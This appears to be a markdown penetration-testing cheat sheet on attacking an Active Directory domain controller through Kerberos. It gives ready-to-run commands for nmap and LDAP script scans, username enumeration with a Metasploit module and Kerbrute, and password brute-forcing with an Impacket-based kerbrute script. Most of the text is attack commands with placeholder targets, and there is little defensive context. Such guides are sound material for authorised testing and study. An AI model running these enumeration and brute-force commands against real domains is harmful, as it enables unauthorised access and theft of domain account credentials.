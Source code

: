 ### Target Enumeration
**Enumerate ports and verify whether a DNS or a Kerberos services are running**
```bash
nmap -Pn -p22,53,80,88,445,5985 <IP>
```

**With the information obtained, further enumerate and identify the `domain name` of the machine using the `ldap` script**
```bash
nmap --script ldap* <IP>
```

**Enumerate `ldap` to identify the `root domain name` of the DC**
```nmap
nmap --script ldap* <IP> | grep -i root
```

### Username Enumeration
You can use the information gathered from the enumeration of the DC to ***discover the user domain accounts*** that authenticate to it. This step is essential as it's possible to ***bruteforce the credentials*** of these user domain accounts with a list of domain usernames, using **Metasploit** or **Kerbrute**.

Both of these methods require existing wordlists of usernames that can be obtained using `OSINT` or `social engineering` techniques.

#### Method one: Metasploit
```bash
use auxiliary/gather/kerberos_enumuser
set domain <ldapServiceName> --> <obtained from target enumeration ldapServiceName: random.local(first part) or look for DC=domain, DC=local that should give you the domain. e.g. domain.local>
set rhosts <dc_ip>
set rport 88
set user_file /usr/share/wordlists/usernames.txt
run
```

#### Method two: Kerbrute
Kerbrute is a tool for user enumeration, brute-forcing, and password spraying against Kerberos authentication. It leverages the way in which Kerberos responds to queries from non-existing users.

When Kerberos receives a ***Ticket Granting Tickets (TGT)*** request with no preauthentication for a non-domain joined user or a non-existent user, it will respond with `KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN`. For a valid user, Kerberos will respond with either a TGT in a `AS-REP` or a `KRB5KDC_ERR_PREAUTH_REQUIRED` response.

```bash
./kerbrute userenum /usr/share/wordlists/usernames.txt -d <domain_name> --dc <IP_ADDRESS_DOMAIN_CONTROL>
```

### Kerberos Bruteforcing
Bruteforce the usernames using the Impacket version of Kerbrute. 

```bash
cd Tools/kerbrute-impacket
python kerbrute.py -dc-ip <IP_ADDRESS_DC> -domain <domain_name> -users <username.txt> -passwords <path/to/password/list> -outputfile <outputfile_name>
```